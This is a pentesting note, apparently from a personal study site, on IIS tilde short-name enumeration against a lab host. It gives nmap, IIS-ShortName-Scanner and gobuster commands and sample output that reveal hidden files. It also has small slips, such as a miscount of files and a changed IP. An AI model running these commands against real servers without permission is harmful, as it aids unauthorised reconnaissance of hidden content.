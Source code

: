 ```yaml
---
title: Pentesting Microsoft Internet Information Services (IIS)
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - CMS
  - iis
---
```


# Pentesting Microsoft Internet Information Services (IIS)


## IIS tilde directory enumeration 

IIS tilde directory enumeration is a technique utilised to uncover hidden files, directories, and short file names (aka the `8.3 format`) on some versions of Microsoft Internet Information Services (IIS) web servers. This method takes advantage of a specific vulnerability in IIS, resulting from how it manages short file names within its directories.


When a file or folder is created on an IIS server, Windows generates a short file name in the `8.3 format`, consisting of eight characters for the file name, a period, and three characters for the extension. Intriguingly, these short file names can grant access to their corresponding files and folders, even if they were meant to be hidden or inaccessible.

The tilde (`~`) character, followed by a sequence number, signifies a short file name in a URL. Hence, if someone determines a file or folder's short file name, they can exploit the tilde character and the short file name in the URL to access sensitive data or hidden resources.


### The attack

Assume the server contains a hidden directory named SecretDocuments. When a request is sent to `http://example.com/~s`, the server replies with a `200 OK` status code, revealing a directory with a short name beginning with "s". Otherwise, it will return another status. The cool part is that you can guess one letter by one. The server delivers a `200 OK` status code for the request `http://example.com/~sec`, further narrowing the short name to "sec". 

Once the short name `secret~1` is identified, enumeration of specific file names within that path can be performed, potentially exposing sensitive documents.

### Enumeration

The initial phase involves mapping the target and determining which services are operating on their respective ports.


```shell-session
nmap -p- -sV -sC --open 10.129.73.154
```

IIS 7.5 is running on port 80. Executing a tilde enumeration attack on this version could be a viable option.


### Tilde Enumeration using IIS ShortName Scanner

Manually sending HTTP requests for each letter of the alphabet can be a tedious process. Fortunately, there is a tool called `IIS-ShortName-Scanner` that can automate this task.

Download it from: [https://github.com/irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)

Requirements:

install Oracle Java and now you can run:

```
git clone https://github.com/irsdl/IIS-ShortName-Scanner.git

cd IIS-ShortName-Scanner/release

java -jar iis_shortname_scanner.jar 0 5 http://10.129.73.154/
```

Expected output:

```
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Do you want to use proxy [Y=Yes, Anything Else=No]? 
Early result: the target is probably vulnerable.
Early result: identified letters in names > A,C,D,E,F,L,N,O,P,R,S,T,U,X
Early result: identified letters in extensions > A,C,P,S
# IIS Short Name (8.3) Scanner version 2023.4 - scan initiated 2025/05/18 20:03:06
Target: http://10.129.73.154/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/.rem
|_ Extra information:
  |_ Number of sent requests: 571
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 2
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ TRANSF~1.ASP
```


Upon executing the tool, it discovers 2 directories and 3 files. However, the target does not permit `GET` access to `http://10.129.204.231/TRANSF~1.ASP`, necessitating the brute-forcing of the remaining filename.

```shell-session
egrep -r ^transf /usr/share/wordlists/* | sed 's/^[^:]*://' > /tmp/list.txt


```shell-session
gobuster dir -u http://10.129.73.154/ -w /tmp/list.txt -x .aspx,.asp
```

Output:

```
transfer.aspx
```